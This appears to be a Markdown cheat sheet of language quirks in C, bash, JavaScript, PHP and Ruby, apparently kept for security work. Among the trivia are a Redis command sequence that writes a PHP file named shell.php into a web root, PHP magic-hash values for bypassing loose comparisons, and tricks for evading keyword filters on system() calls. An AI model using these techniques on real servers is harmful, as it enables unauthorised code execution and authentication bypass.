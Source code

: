 # Programming Language
<!-- toc -->

## C
- .init / .fini

    ```C
    #include <stdio.h>
    __attribute__((constructor(101))) void func1() {
    }

    __attribute__((constructor(102))) void func2() {
    }

    __attribute__((constructor)) void func3() {
    }

    __attribute__((destructor)) void func4() { // Run after main function.
    }

    int main() {
        return 0;
    }
    ```

## Shell
- [Shell Parameter Expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html#Shell-Parameter-Expansion)

    | Parameter Expansion   | x="a1 b1 c2 d2" |
    |:----------------------|:----------------|
    | `${x#*1}`             | &nbsp; b1 c2 d2 |
    | `${x##*1}`            | &nbsp; c2 d2    |
    | `${x%1*}`             | a1 b            |
    | `${x%%1*}`            | a               |
    | `${x/1/3}`            | a3 b1 c2 d2     |
    | `${x//1/3}`           | a3 b3 c2 d2     |
    | `${x//?1/z3}`         | z3 z3 c2 d2     |
    | `${x:0:2}`            | a1              |

- Command
    - printf

        ```bash
        printf '%s.' a b c
        ------------------
        a.b.c.
        ```

## Redis
- Write file

    ```
    FLUSHALL
    SET payload "<?php phpinfo() ?>"
    CONFIG SET DIR /var/www/html/
    CONFIG SET DBFILENAME shell.php
    SAVE
    ```

- [RCE](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## JavaScript
- Reference
    - [wtfjs](https://github.com/denysdovhan/wtfjs)
    - [JavaScript Truth Table](https://thomas-yang.me/projects/oh-my-dear-js/)
    - [你懂 JavaScript 嗎？#8 強制轉型（Coercion）](https://ithelp.ithome.com.tw/articles/10201512)
- Weak Type (comparison `==`)
    - [] == 0
    - [] == "0"
    - ['a', ['b', 'c']] == "a,b,c"
    - "b" + "a" + + "a" + "a" == baNaNa
- Prototype Chain
    ```
    __proto__ 
    ─────────>
                                          
             ┌─────────────────────────────┐ ┌───────────────────────────────────────────────────┐
             │                             │ │                                                   │
             │                             │ │                                                   │
             │                             │ │                   ┌──────┐                        │
             │                             │ │                   │ null │                        │
             │                             │ │                   └──────┘                        │
             │                             │ │                      ↑                            │
             │                             ↓ ↓                      │                            │
    ┌────────────┐    prototype┌────────────────────┐    ┌──────────────────┐  constructor┌──────────┐
    │ Function() │─────────────│ Function.prototype │───>│ Object.prototype │─────────────│ Object() │
    └────────────┘constructor  └────────────────────┘    └──────────────────┘prototype    └──────────┘
                                            ↑                       ↑          
                                            │                       │
                                         ┌─────┐    prototype┌─────────────┐
                                         │ A() │─────────────│ A.prototype │
                                         └─────┘constructor  └─────────────┘
                                                                    ↑          
                                                                    │
                                                               ┌─────────┐
                                                               │ new A() │
                                                               └─────────┘
    ```

## PHP
- Reference
    - [php.net](https://www.php.net/)
- Weak Type (comparison `==`)
    - [PHP Truth Table](https://www.php.net/manual/en/types.comparisons.php)
    - [String to Number Comparison](https://www.php.net/manual/en/migration80.incompatible.php#migration80.incompatible.core.string-number-comparision)
    - `0eXXXX == 0eYYYY`
        - md5(240610708) = 0e462097431906509019562988736854
        - md5(314282422) = 0e990995504821699494520356953734
        - md5(QLTHNDT) = 0e405967825401955372549139051580
    - PHP Array
        - $arr[idx] <-> $arr{idx}
        - strcmp([], []) -> NULL
        - md5([]) -> NULL
        - sha1([ ]) -> NULL
        - strlen([ ]) -> NULL
        - file\_put\_contents("info.php", ["<?php ", "phpinfo();"]);
- Keyword Bypass
    - Case Insensitive
        - `<?php SySTeM("ls -al"); ?>`
    - Variable Function
        - `$func="system"; $func("ls -al");`
    - system(id) -> system("id")
    - echo \`id\` -> system("id")
- [Tags](https://www.php.net/manual/en/language.basic-syntax.phptags.php)
    - normal tag

        ```
        <?php echo 'test' ?>
        ```

    - short tag
        > can be disabled via the `short_open_tag` in `php.ini`, or are disabled
        > by default if PHP is built with the `--disable-short-tags` configuration

        ```php
        <? echo 'test' ?>
        ```

    - short echo tag

        ```php
        <?= 'test' ?>
        ```

## Python
- Reference
    - [wtfpython](https://github.com/satwikkansal/wtfpython) 

## Ruby
- Object Model
    ```
    superclass
    ──────────>

          ┌──────────────────────────────────────────────────────────┐
          │                                                          │
          │                       ┌─────┐                            │
          │                       │ nil │                            │
          │                       └─────┘                            │
          │                          ↑                               │
          │                          │                               │
          │                   ┌─────────────┐  singleton_class┌──────────────┐ 
          │                   │ BasicObject │─────────────────│ #BasicObject │
          │                   └─────────────┘                 └──────────────┘
          │                          ↑                               ↑
          ↓                          │                               │
    ┌───────┐    ┌────────┐    ┌────────┐      singleton_class┌─────────┐
    │ Class │───>│ Module │───>│ Object │─────────────────────│ #Object │
    └───────┘    └────────┘    └────────┘                     └─────────┘
                                     ↑                               ↑ 
                                     │                               │
                              class┌───┐            singleton_class┌────┐
              ┌────────────────────│ A │───────────────────────────│ #A │
              │                    └───┘                           └────┘
              │                      ↑  
              │                      │  
            ┌───┐   singleton_class┌────┐
            │ a │──────────────────│ #a │
            └───┘                  └────┘

    ```
